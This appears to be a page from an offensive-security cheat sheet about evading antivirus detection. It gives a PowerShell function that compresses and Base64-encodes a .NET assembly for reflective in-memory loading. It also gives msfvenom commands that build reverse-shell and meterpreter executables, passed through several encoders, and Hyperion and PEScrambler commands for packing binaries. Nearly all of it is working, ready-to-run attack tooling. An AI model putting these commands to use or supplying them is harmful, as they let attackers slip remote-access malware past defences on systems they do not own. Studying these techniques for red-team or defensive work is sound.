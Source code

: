 


## .NET Reflective Assembly

* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack#powersharppack)

A way to bypass AV signature analysis: you can Gzip-compress and Base64-encode a .NET assembly to load it reflectively via PowerShell right from memory:

{% code title="CompressEncodeAssembly.ps1" %}
```powershell
function Invoke-CompressEncodeAssembly
{
	$bytes = [System.IO.File]::ReadAllBytes("\path\to\binary.exe")
	[System.IO.MemoryStream] $output = New-Object System.IO.MemoryStream
	$gzipStream = New-Object System.IO.Compression.GzipStream($output, [System.IO.Compression.CompressionMode]::Compress)
	$gzipStream.Write($bytes, 0, $bytes.Length)
	$gzipStream.Close()
	$output.Close()
	[byte[]] $byteOutArray = $output.ToArray()
	$encodedZipped = [System.Convert]::ToBase64String($byteOutArray)
	$encodedZipped
}
```
{% endcode %}

This [blog post](https://www.praetorian.com/blog/running-a-net-assembly-in-memory-with-meterpreter) covers the topic in depth. Also here is [an example](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/efd22a64fe05e7a23e57616370e2e00981f276b6/PowerSharpBinaries/Invoke-SharpMapExec.ps1) how the binary can be actually decoded, decompressed and run from memory.




## msfvenom

```
$ msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=1337 -a x86 --platform win -e x86/shikata_ga_nai -i 3 -f exe -o rev.exe
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=1337 -e x86/shikata_ga_nai -i 9 -f raw | msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 11 -f raw | msfvenom -a x86 --platform windows -e x86/countdown -i 6 -f raw | msfvenom -a x86 --platform windows -e x86/shikata_ga_nai -i 7 -k -f exe -o met.exe
```




## Veil-Evasion

Hyperion + Pescramble

```
$ wine hyperion.exe input.exe output.exe
$ wine PEScrambler.exe -i input.exe -o output.exe
```
